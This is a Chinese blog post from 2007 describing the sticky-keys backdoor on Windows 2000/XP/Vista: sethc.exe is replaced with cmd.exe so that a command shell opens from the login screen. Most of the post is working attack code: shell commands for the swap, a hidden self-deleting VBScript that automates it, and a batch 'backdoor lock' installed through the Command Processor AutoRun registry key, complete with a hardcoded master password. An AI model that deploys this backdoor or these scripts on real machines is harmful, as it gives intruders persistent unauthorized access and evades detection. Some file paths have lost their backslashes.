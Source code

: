 ```yaml
---
title: 2000/xp/vista下5次shift的粘滞键利用
description:      这篇文章里说的方法和欠钱前2天说的用explorer.exe替换sethc.exe然后在3389下用5次shift获得资源管理器的方法差不多，不过做了一些扩展，蛮有意思~　　在windows2000/xp/vista下，按shift键5次，可以打开粘置，会运行sethc.exe，而且，在登录界面里也可以打开。这就让人联想到WINDOWS的屏保，将程序替换成cmd.exe后，就可以打开shell了。　　XP：将安装源光盘弹出（或将硬盘上的安装目录改名)cd%widnir%system32dllcacherensethc.exe*.ex~cd%widnir%system32copy/ycmd.exesethc.exe　　VISTA：takeown/fc:windowssystem32sethc.execaclsc:windowssystem32sethc.exe/Gadministrator:F然后按XP方法替换文件
date: 2007-10-06 12:44:21
category: 技术文章
tags: ['技术类', '安全', '技巧', 'Windows']
post_id: 190
alias: 5Shift-sethc
ViewNums: 7023
---
```


这篇文章里说的方法和欠钱前2天说的用explorer.exe替换sethc.exe然后在3389下用5次shift获得资源管理器的方法差不多，不过做了一些扩展，蛮有意思~

在windows 2000/xp/vista下，按shift键5次，可以打开粘置，会运行sethc.exe，而且，在登录界面里也可以打开。这就让人联想到WINDOWS的屏保，将程序替换成cmd.exe后，就可以打开shell了。

　　XP：

| 将安装源光盘弹出（或将硬盘上的安装目录改名)  cd %widnir%system32dllcache  ren sethc.exe *.ex~  cd %widnir%system32  copy /y cmd.exe sethc.exe |
| --- |

VISTA：

| takeown /f c:windowssystem32sethc.exe  cacls c:windowssystem32sethc.exe /G administrator:F  然后按XP方法替换文件 |
| --- |

在登录界面按5此SHIFT，出来cmd shell，然后……

后门扩展：

转至：7j blog http://1v1.name/show-241-1.html#cm300

再更新一下

| Dim obj, success  Set obj = CreateObject("WScript.Shell")  success = obj.run("cmd /c takeown /f %SystemRoot%system32sethc.exe", 0, True)  success = obj.run("cmd /c echo y| cacls %SystemRoot%system32sethc.exe /G %USERNAME%:F", 0, True)  success = obj.run("cmd /c copy %SystemRoot%system32cmd.exe %SystemRoot%system32acmd.exe", 0, True)  success = obj.run("cmd /c copy %SystemRoot%system32sethc.exe %SystemRoot%system32asethc.exe", 0, True)  success = obj.run("cmd /c del %SystemRoot%system32sethc.exe", 0, True)  success = obj.run("cmd /c ren %SystemRoot%system32acmd.exe sethc.exe", 0, True) |
| --- |

第二句最有意思了.嘿嘿..自动应答....以前就遇到过类似的问题

再更新.加个自删除,简化代码...

| On Error Resume Next  Dim obj, success  Set obj = CreateObject("WScript.Shell")  success = obj.run("cmd /c takeown /f %SystemRoot%system32sethc.exe&echo y| cacls %SystemRoot%system32sethc.exe /G %USERNAME%:F&copy %SystemRoot%system32cmd.exe %SystemRoot%system32acmd.exe&copy %SystemRoot%system32sethc.exe %SystemRoot%system32asethc.exe&del %SystemRoot%system32sethc.exe&ren %SystemRoot%system32acmd.exe sethc.exe", 0, True)  CreateObject("Scripting.FileSystemObject").DeleteFile(WScript.ScriptName) |
| --- |

后门锁扩展：

allyesno注：可以采用cmd 锁 来进行cmdshell的密码验证 嘿嘿。。。

用下面的后门锁的方法是 把代码保存为bdlock.bat

然后修改注册表位置即可

[HKEY_LOCAL_MACHINESOFTWAREMicrosoftCommand Processor]
　　"AutoRun"="bdlock.bat"

| @Echo Off  title 后门登陆验证  color a  cls  set temprandom=%RANDOM%  echo 请输入验证码:%temprandom%  set/p check=  if "%check%"=="%temprandom%%temprandom%" goto passcheck  if "%check%"=="%temprandom%" (  rem 后门服务器验证  rem 如果没有后门验证服务器请rem注释掉下一行代码  if exist 192.168.8.8ackdoor$pass goto passcheck  )  echo 验证失败  pause  exit  :passcheck  echo 验证成功  If "%passcmdlock%"=="aaa" Goto endx  Set passcmdlock=aaa :allyesno  Set Errorlevel=>nul  Echo 请输入验证密码？  Set password=allyesno Is a pig>nul  Set/p password=  rem 万能密码  if "%password%"=="allyesno is a sb" goto endx  If %time:~1,1%==0 Set timechange=a  If %time:~1,1%==1 Set timechange=b  If %time:~1,1%==2 Set timechange=c  If %time:~1,1%==3 Set timechange=d  If %time:~1,1%==4 Set timechange=e  If %time:~1,1%==5 Set timechange=f  If %time:~1,1%==6 Set timechange=g  If %time:~1,1%==7 Set timechange=h  If %time:~1,1%==8 Set timechange=i  If %time:~1,1%==9 Set timechange=j  set/a sum=%time:~1,1%+%time:~1,1%  Set password|findstr "^password=%timechange%%time:~1,1%%date:~8,2%%sum%$">nul  If "%errorlevel%"=="0" cls&Echo 口令正确&Goto End  Echo 请联系瑞星客服咨询正确密码！&Goto allyesno  :End  Set password=>nul  Set Errorlevel=>nul  Echo 很好，很和谐！  :endx |
| --- |

代码只是一个示例，请大家谨慎测试。